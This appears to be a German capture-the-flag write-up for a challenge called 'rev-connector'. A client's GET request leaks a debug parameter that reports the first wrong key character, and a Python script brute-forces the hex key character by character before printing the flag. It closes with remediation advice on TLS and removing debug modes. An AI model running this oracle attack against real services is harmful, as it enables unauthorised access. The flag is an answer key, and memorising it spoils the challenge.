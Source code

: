 # rev-connector

## Aufgabe
Es soll sich mittels des Client Tools `dbh_connector.exe` mit einem Server verbunden werden. Hierfür wird ein gültiger Schlüssel benötigt.

### Gegeben

Ein Programm `dbh_connector.exe` mit welchem die Verbindung zum Server hergestellt werden kann. Außerdem wurde die IP Adresse und der Port zur Webanwendung angegeben.


### Lösungsvorschlag

Wird das Programm gestartet, gibt dieses folgende Meldung aus:

![Connector_Options](screenshots/Connector_Options.JPG)

Es müssen verschiedene Parameter (IP, Port, Key) für den Verbindungsaufbau angegeben werden. Wird die IP, der Port und ein zufälliger Key ("fi7") angegeben so erscheint die Ausgabe "**Result: Wrong key!**".

Bei Mitschneiden des Datenverkehrs kann folgender GET Request ermittelt werden:
```
http://localhost:80/index.php?ID=c56ac9e5a4faa7e8d694715ea6d1bff5&key=fi7
```

Nun kann begonnen werden, den Hashwert per Bruteforce Angriff zu knacken. Dies kann jedoch - wenn es schlecht läuft - mehrere Jahre dauern. Dementsprechend wird die Datei vorerst mittels eines Decompilers inspiziert. 

Die Zeichenketten in der Anwendung sind nicht obfuskiert. Entsprechend sieht man zum Beispiel `Specify the destination port`:

![code_strings](screenshots/Strings.JPG)

Weiter unten in der Ausgabe kann eine `/index.php` erkannt werden, welche bereits im GET Request ermittelt werden konnte. Unter Anderem sind zwei Zeilen mit einer ID zu erkennen. Es fällt auf, dass bei einer ID der Parameter "debug=true" gesetzt ist. Die URL wird nun erneut mit dem Parameter "&debug=true" aufgerufen.

```
http://localhost:80/index.php?ID=c56ac9e5a4faa7e8d694715ea6d1bff5&key=fi7&debug=true
```
Der Aufruf ergibt folgende Ausgabe:
```
Wrong char at position 0
```
Durch Ausprobieren kann ermittelt werden, dass es sich bei dem Passwort um einen Hex Wert handeln sollte und die Fehlermeldung sich verändert, sobald das erste Zeichen richtig erraten wurde.
```
Wrong char at position 1
```

Nun kann beispielsweise in Python ein Tool geschrieben werden, welches den Key ermittelt:
```Python
import requests

#initialisieren der Variablen
ip = "localhost"
port = "80"
key = ""
hex_values = "0123456789abcdef"

#Für die Länge des Schlüssels, versuchen wir es mit der Länge der ID
for y in range(0,32):
    #Jeden einzelnen Hex Wert ausprobieren
    for x in hex_values:
        #URL mit dem Schlüssel aufrufen
        r =requests.get("http://" + ip + ":"+ port + "/index.php?ID=c56ac9e5a4faa7e8d694715ea6d1bff5&debug=true&key=" + key + x)
        #Die Zahl (position) abfragen
        tmp = r.text[-2:]
        if(tmp[0] == " "):
            tmp = tmp[1]
        
        #Wenn sich die Zahl geändert hat, ist die Stelle richtig. Und wir nehmen an, dass wir die Flag zurück geliefert bekommen, sobald der Key richtig ist. Also beenden wir es auch, sobald das letzte Zeichen der Flag kommt    
        if(tmp == str(y + 1) or tmp[-1:] == "}"):
            key = key + x
            break
            
#Gibt die Flag aus
print(requests.get("http://" + ip + ":"+ port + "/index.php?ID=c56ac9e5a4faa7e8d694715ea6d1bff5&debug=true&key=" + key).text)
```

![Solution](./solution.png)

## Beseitigung der Schwachstelle
Zum einen erfolgt die Kommunikation unverschlüsselt per "http". Zum anderen ist ein unsicherer Debug Modus im Programm vorhanden.

Die Kommunikation sollte mittels TLS verschlüsselt und mit Zertifikaten abgesichert werden.

Des Weiteren darf ein Debug Modus von nicht-vertrauenswürdigen Quellen niemals erreichbar sein. Dies bietet Angreifer wichtige Informationen. Bei Systemen, welche sich außerhalb einer Test- oder Entwicklungsumgebung befinden, sollten jegliche Debug Dienste entfernt werden.


## Flagge
```
DBH{cfa7e2d1-f588-47c0-adfc-7339ac29cbb1}
```